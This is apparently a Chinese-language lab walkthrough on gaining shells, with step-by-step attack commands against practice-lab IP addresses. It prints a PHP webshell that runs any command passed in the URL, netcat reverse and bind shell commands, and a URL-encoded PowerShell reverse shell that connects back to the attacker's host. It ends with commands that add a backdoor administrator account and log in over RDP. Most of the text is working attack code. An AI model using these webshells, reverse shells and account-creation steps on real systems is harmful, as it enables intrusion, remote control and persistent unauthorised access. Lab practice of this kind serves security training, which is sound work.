 ### webshell

1. 尝试将 Webshel​​l 上传到Linux机器，然后使用以下命令：nc <LOCAL-IP> <PORT> -e /bin/bash将反向 shell 发送回您自己计算机上等待的侦听器。

  - `nc -nlvp 1234`
  - 创建php文件 webshell.php
      ```php 
      <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
        ?>
      ```
   - 打开被攻击的网址`http://10.10.57.248/`,上传webshell.php
   - 构建url `http://10.10.57.248/uploads/webshell.php?cmd=nc 10.10.21.196 1234 -e /bin/bash`,后面的参数ip为你本地的ip端口为你nc监听的端口(简单说这一步就是访问你刚才上传的文件并传入命令执行)。
   - 然后查看nc 看到连接成功

2. 导航到/usr/share/webshells/php/php-reverse-shell.phpKali 并更改 IP 和端口，以将您的 tun0 IP 与自定义端口相匹配。设置 netcat 监听器，然后上传并激活 shell。
  - 连接ssh `ssh shell@10.10.149.6`
  - 执行 `mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
  - 执行 `nc 10.10.149.6 4444` 此处的ip是目标机的ip
  - 成功  

3. 在 Windows 目标上上传 Webshel​​l 并尝试使用 Powershell 获取反向 shell。
  - `nc -nlvp 1234`
  - 创建php文件 webshell.php
      ```php 
      <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
        ?>
      ```
   - 打开被攻击的网址`http://10.10.57.248/`,上传webshell.php
   - 构建url `http://10.10.57.248/uploads/webshell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.194.117%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`,后面的参数ip为你本地的ip端口为你nc监听的端口(简单说这一步就是访问你刚才上传的文件并传入命令执行)。
   - 然后查看nc 看到连接成功

4. 网络服务器正在以系统权限运行。创建一个新用户并将其添加到“管理员”组，然后通过 RDP 或 WinRM 登录。
  - 使用刚才获取的shell
  - `net user test test123 /add`               #添加新用户
    `net localgroup administrators test /add`  #添加用户到管理员组  
  - 使用新用户登录 `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.91.116 /u:test /p:'test123'`

5. 要求：尝试使用 socat 和 netcat 在 Windows 目标上获得反向和绑定 shell。